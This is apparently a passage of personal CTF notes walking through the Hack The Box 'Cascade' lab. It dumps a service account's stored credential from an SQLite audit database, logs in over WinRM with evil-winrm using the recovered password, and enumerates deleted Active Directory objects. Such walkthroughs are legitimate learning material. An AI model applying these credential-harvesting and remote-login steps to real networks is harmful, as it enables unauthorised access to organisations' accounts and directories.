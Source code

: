 # Got audit.db and RunAudit.bat file:

![image](https://github.com/thesinghsec/HackingNotes101/assets/126919241/311b34b8-b3b9-43f8-9260-5a6ea60a2d7e)

# Let's run enumeration:

```bash
└─# sqlite3 Audit.db
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
DeletedUserAudit  Ldap              Misc            
sqlite> select * from Ldap;
1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local
```
OR

# sqlitebrowser Audit.db     

![image](https://github.com/thesinghsec/HackingNotes101/assets/126919241/a48e820b-ed0a-47cf-b989-cd39e62e5e1e)

# Tried password cark but not works so we googled and got:

![image](https://github.com/thesinghsec/HackingNotes101/assets/126919241/ddb8e9a6-ace7-470e-acd2-28841fd11ac6)

# login using Evil-Winrm and run cmds:

```bash
└─$ evil-winrm -u arksvc -p w3lc0meFr31nd -i 10.10.10.182
PS C:\Users\arksvc\Documents> Get-ADObject -ldapfilter "(&(isDeleted=TRUE))" -IncludeDeletedObjects
Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059

OR fro only users run:

PS C:\Users\arksvc\Documents> Get-ADObject -ldapfilter "(&(objectclass=user)(isDeleted=TRUE))" -IncludeDeletedObjects


Deleted           : True
DistinguishedName : CN=CASC-WS1\0ADEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe,CN=Deleted Objects,DC=cascade,DC=local
Name              : CASC-WS1
                    DEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe
ObjectClass       : computer
ObjectGUID        : 6d97daa4-2e82-4946-a11e-f91fa18bfabe

Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
```